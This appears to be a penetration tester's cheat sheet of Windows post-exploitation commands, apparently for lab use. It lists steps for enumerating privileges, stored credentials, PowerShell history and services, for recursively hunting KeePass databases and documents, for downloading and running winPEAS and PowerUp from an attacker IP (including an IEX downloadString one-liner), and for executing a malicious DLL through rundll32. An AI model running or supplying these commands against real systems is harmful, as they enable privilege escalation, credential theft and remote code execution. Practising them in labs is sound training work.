 
> [!NOTE] Note
> set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;
```powershell
whoami /priv
whoami /groups

set 

tasklist /svc

cmdkey /list

systeminfo

net user
net user <current user>
net localgroup
query user
net accounts

Get-History

(Get-PSReadlineOption).HistorySavePath
type <previous command output>
ls C:\Users\bob\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\

ipconfig /all
netstat -ano
tasklist /svc | findstr <PID>
route print

dir C:\
dir "C:\Program Files"
dir "C:\Program Files (x86)"

Get-WmiObject -Class Win32_Product |  select Name, Version
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer

services
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
icacls <service binary path>

$env:AppKey

gci -Path C:\ -Include *.kdbx,.git -File -Recurse -ErrorAction SilentlyContinue
gci -Path C:\xampp -Include *.txt,*.ini,*.yml -File -Recurse -ErrorAction SilentlyContinue
gci -Path C:\Users\ -Include *.exe,*.txt,*.rdp,*.pdf,*.xls,*.xlsx,*.xml,*.doc,*.docx,*.ps1,*.bat,*.ini,*.yml -File -Recurse -ErrorAction SilentlyContinue
gci -h -Path C:\Users\ -Include *.exe,*.txt,*.rdp,*.pdf,*.xls,*.xlsx,*.xml,*.doc,*.docx,*.ps1,*.bat,*.ini,*.yml -File -Recurse -ErrorAction SilentlyContinue
gci C:\Users\Public

gci \\.\pipe\
accesschk.exe -accepteula -w \pipe\WindscribeService -v

where.exe /R C:\Windows bash.exe
where.exe /R C:\Windows wsl.exe
where.exe /R C:\ MultimasterAPI.dll
```
1.  Snoop on processes
```powershell
Import-Module .\Watch-Command.ps1
Get-Process | watch-command -diff -cont -verbose -property "Image Name"
```
2. Run PEAS,
```powershell
curl 192.168.45.x/winPEAS.exe -o winpeas.exe
.\winpeas.exe
```
3. PowerUp
```powershell
IEX(New-Object Net.WebClient).downloadString('http://192.168.45.x/PowerUp.ps1');Invoke-Allchecks
```
4. Running the `sysinfo` command shows us that the system is of x86 bit architecture, giving us even more reason to trust the Local Exploit Suggester
```
post/multi/recon/local_exploit_suggester
```

Run malicious DLL
```powershell
rundll32 shell32.dll,Control_RunDLL C:\temp\mal.dll
```